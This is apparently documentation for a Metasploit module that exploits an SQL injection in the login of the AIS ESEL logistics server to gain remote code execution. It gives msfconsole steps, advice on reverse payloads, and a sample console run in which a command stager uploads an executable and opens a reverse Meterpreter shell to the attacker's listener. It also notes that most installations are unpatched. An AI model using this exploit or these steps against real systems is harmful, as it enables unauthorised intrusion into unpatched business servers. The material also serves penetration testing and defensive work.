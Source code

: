 ## Description

    This module will execute an arbitrary payload on an "ESEL" server used by the
    AIS logistic software. The server typically listens on port 5099 without TLS.
    There could also be server listening on 5100 with TLS but the port 5099 is
    usually always open.
    The login process is vulnerable to an SQL Injection. Usually a MSSQL Server
    with the sa user is in place.

    This module was verified on version 67 but it should also run on lower versions.
    An fixed version was created by AIS in September 2017. However most systems
    have not been updated.`

    In regard to the payload, unless there is a closed port in the web server,
    you dont want to use any bind payload. You want a "reverse" payload,
    probably to your port 80 or to any other outbound port allowed on the firewall.

    Currently, one delivery method is supported

    This method takes advantage of the Command Stager subsystem. This allows using
    various techniques, such as using a TFTP server, to send the executable. By default
    the Command Stager uses 'wcsript.exe' to generate the executable on the target.

    NOTE: This module will leave a payload executable on the target system when the
    attack is finished.

## Vulnerable Application

  The application is not publicily available. It was tested on Esel version 67 but should also work an versions below.

## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/windows/misc/ais_esel_server_rce`
  3. `set RHOSTS <IP>`
  4. `check`
  5. **Verify** "Server is vulnerable"
  6. `run`
  7. **Verify** Session opened

## Scenarios

    msf5 > use exploit/windows/misc/ais_esel_server_rce
    msf5 exploit(windows/misc/ais_esel_server_rce) > set rhosts 10.66.75.212
    rhosts => 10.66.75.212
          msf5 exploit(windows/misc/ais_esel_server_rce) > check
          [+] 10.66.75.212:5099 - The target is vulnerable.
    msf5 exploit(windows/misc/ais_esel_server_rce) > run

    [*] Started reverse TCP handler on 10.66.75.208:4444
    [+] 10.66.75.212:5099 - Correct response received => Data send succesfully
    [+] 10.66.75.212:5099 - Correct response received => Data send succesfully
    [*] 10.66.75.212:5099 - Command Stager progress -   1.47% done (1499/102292 bytes)
    [+] 10.66.75.212:5099 - Correct response received => Data send succesfully
    [*] 10.66.75.212:5099 - Command Stager progress -   2.93% done (2998/102292 bytes)
    [+] 10.66.75.212:5099 - Correct response received => Data send succesfully
          ...
    [*] 10.66.75.212:5099 - Command Stager progress -  99.55% done (101827/102292 bytes)
    [+] 10.66.75.212:5099 - Correct response received => Data send succesfully
    [*] Sending stage (179779 bytes) to 10.66.75.212
    [*] 10.66.75.212:5099 - Command Stager progress - 100.00% done (102292/102292 bytes)
    [!] 10.66.75.212:5099 - The payload is left on the client in the %TEMP% Folder of the corresponding user.
    [*] 10.66.75.212:5099 - Stager should now be executed. Waiting for 20 seconds..
    [*] Meterpreter session 1 opened (10.66.75.208:4444 -> 10.66.75.212:57107) at 2019-03-27 11:04:29 +0100

    meterpreter > getuid
    Server username: NT Service\MSSQL$AIS

